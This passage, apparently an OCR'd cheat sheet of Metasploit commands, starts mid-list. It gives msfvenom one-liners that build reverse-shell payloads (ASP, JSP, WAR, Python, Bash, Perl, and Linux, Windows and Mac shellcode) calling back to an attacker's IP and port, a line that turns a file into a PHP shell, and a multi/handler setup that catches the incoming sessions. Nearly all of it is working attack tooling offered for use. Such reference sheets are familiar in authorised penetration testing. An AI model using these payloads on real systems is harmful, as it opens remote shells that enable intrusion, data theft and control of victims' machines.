 ```bash
cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

# ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

# WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war


### Scripting Payloads
# Python
msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

# Bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh

# Perl
msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl


### Shellcode:
# Linux Based Shellcode
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

# Windows Based Shellcode
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>

# Mac Based Shellcode
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>


### Handler
use exploit/multi/handler
set PAYLOAD <Payload name>
set LHOST <LHOST value>
set LPORT <LPORT value>
set ExitOnSession false
exploit -j -z
```
